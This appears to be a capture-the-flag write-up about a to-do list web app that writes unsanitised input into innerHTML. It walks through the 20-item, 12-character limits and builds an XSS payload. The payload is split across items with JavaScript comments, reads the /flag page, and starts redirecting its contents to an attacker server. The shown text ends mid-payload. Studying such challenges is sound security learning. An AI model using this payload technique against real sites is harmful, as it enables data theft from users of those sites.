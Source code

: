 ```javascript
}
```

From `view.js` we can see an interesting thing, namely the use of `.innerHTML` which is not sanitized first so this can lead to XSS attacks.

```javascript
...snip...
                list.innerHTML = json.map((x, i) => `<li><input type="checkbox" id="item${i}"><label for="item${i}">${x}</label></li>`).join("");
...snip...
```

But this XSS will not be easy because we are given a limit of 12 letters per line.

![](https://i.imgur.com/zDc1DAt.png)

In the `index.js` source code, we can also see that there is another restriction, namely that we cannot send a payload of more than 20 lines.

```javascript
...snip...
    if (parsed.length > 20) {v
        res.status(400).send("list must have at most 20 items");
        return;
    }
    if (parsed.some((x) => x.length > 12)) {
        res.status(400).send("list items must not exceed 12 characters");
        return;
    }
...snip...
```

When we send the following payload:

```
<script>
alert(1)
<script>
```

Our payload that we send will change to something like the image below, so we can't do XSS properly.

![](https://i.imgur.com/TZ0Ml5A.png)


### Exploit

To exploit this problem, we can use a comment syntax like the following in js `/*blablabla*/` so that later a tag like the image above will be considered a comment.

Here's the final payload I use to get the XSS and do a CSRF to get the flags that are in the `/flag` page and send them to our server.

```
<img src='
'onerror='/*
*/fetch(/*
*/"/flag")/*
*/.then(/*
*/(a)=>a./*
*/text()/*
*/.then(/*
*/(a)=>/*
*/location/*
*/.href=/*
*/"htt"+/*
*/"p:"+/*
```